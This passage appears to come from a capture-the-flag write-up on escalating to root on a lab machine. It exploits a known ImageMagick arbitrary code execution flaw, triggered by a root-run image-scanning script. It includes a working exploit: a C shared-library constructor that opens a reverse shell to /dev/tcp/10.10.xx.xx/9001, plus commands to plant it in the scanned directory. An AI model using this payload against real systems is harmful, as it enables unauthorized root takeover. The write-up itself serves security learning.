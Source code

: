 ## Enumeration

The `/opt` directory contains three directory.

```bash
developer@titanic:~$ ls -l /opt
total 12
drwxr-xr-x 5 root developer 4096 Feb  7 10:37 app
drwx--x--x 4 root root      4096 Feb  7 10:37 containerd
drwxr-xr-x 2 root root      4096 Feb  7 10:37 scripts
```

The `scripts` directory is interesting because it contains a script file owned by `root`.

```bash
developer@titanic:~$ ls -l /opt/scripts/
total 4
-rwxr-xr-x 1 root root 167 Feb  3 17:11 identify_images.sh
```

```bash
developer@titanic:~$ cat /opt/scripts/identify_images.sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

This script scans for `.jpg` files inside `/opt/app/static/assets/images/`, a directory where we have write access, and then executes `/usr/bin/magick identify` on each `.jpg` file.

```bash
developer@titanic:/tmp$ magick --version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5)
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)
```

The current version of `ImageMagick` is `7.1.1-35` which has security flaw [Arbitrary Code Execution in `AppImage` version `ImageMagick`](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8).

# Shell as root

Follow the Proof of Concept (PoC) from the GitHub Security to exploit the vulnerability.

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("bash -c 'bash -i >& /dev/tcp/10.10.xx.xx/9001 0>&1'");
    exit(0);
}
EOF
cp libxcb.so.1 /opt/app/static/assets/images/
cp /opt/app/static/assets/images/home.jpg /opt/app/static/assets/images/bruh.jpg
```
